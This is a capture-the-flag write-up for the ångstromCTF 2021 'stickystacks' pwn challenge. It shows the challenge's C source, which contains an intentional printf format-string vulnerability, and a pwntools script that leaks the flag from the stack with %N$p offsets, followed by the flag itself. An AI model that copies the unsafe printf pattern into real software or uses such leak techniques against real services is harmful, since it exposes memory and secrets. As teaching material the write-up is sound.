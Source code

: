 ```yaml
---
layout: post
title: ångstromCTF 2021 - stickystacks
categories: [Write-Ups, AngstromCTF]
tags: [AngstromCTF, Pwn]
featured-image:  AngstromCTF/icon.png
featured-image-alt: AngstromCTF
---
```


It's a write-up about the challenge : [AngstromCTF - stickystacks](https://ctftime.org/task/15322)

	
## 1. Challenge


I made a program that holds a lot of secrets... maybe even a flag!

Source

Connect with nc shell.actf.co 21820, or visit /problems/2021/stickystacks on the shell server.

Author: JoshDaBosh
```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>


typedef struct Secrets {
    char secret1[50];
    char password[50];
    char birthday[50];
    char ssn[50];
    char flag[128];
} Secrets;


int vuln(){
    char name[7];
    
    Secrets boshsecrets = {
        .secret1 = "CTFs are fun!",
        .password= "password123",
        .birthday = "1/1/1970",
        .ssn = "123-456-7890",
    };
    
    
    FILE *f = fopen("flag.txt","r");
    if (!f) {
        printf("Missing flag.txt. Contact an admin if you see this on remote.");
        exit(1);
    }
    fgets(&(boshsecrets.flag), 128, f);
    
    
    puts("Name: ");
    
    fgets(name, 6, stdin);
    
    
    printf("Welcome, ");
    printf(name);
    printf("\n");
    
    return 0;
}


int main(){
    setbuf(stdout, NULL);
    setbuf(stderr, NULL);

    vuln();
    
    return 0;
}


```

## 2. Solution

This was a simple "leak the flag from the stack" challenge, and for this one the "gadget" would be a format string vulnerability.
I struggled for a bit despite quickly getting the right idea since %x and %d were not working (I was getting parts of the flag but it felt like the values were all being cut off). I even tried %ld and %lld but since we had a 5 character limit this did not work as expected.

Thankfully after remembering about and switching to %p it was smooth sailing.

```
from pwn import *


def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


# Specify your GDB script here for debugging
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())


# Set up pwntools for the correct architecture
exe = './stickystacks'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Enable verbose logging so we can see exactly what is being sent (info/debug)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

flag = b""

# Let's fuzz x values
for i in range(33, 43):
    try:
        p = start()
        # Format the counter
        # e.g. %2$s will attempt to print [i]th pointer/string/hex/char/int
        p.sendlineafter(':', '%{}$p'.format(i))
        p.recvuntil('Welcome, ')
        # Receive the response
        result = p.recvuntil('\n')
        flag_segment = unhex(result.strip().decode()[2:])
        print(str(i) + ": " + str(flag_segment))
        flag += flag_segment[::-1]  # Reverse and decode
    except EOFError:
        pass

success(flag)
```



The flag was : **actf{well_i'm_back_in_black_yes_i'm_back_in_the_stack_bec9b51294ead77684a1f593}**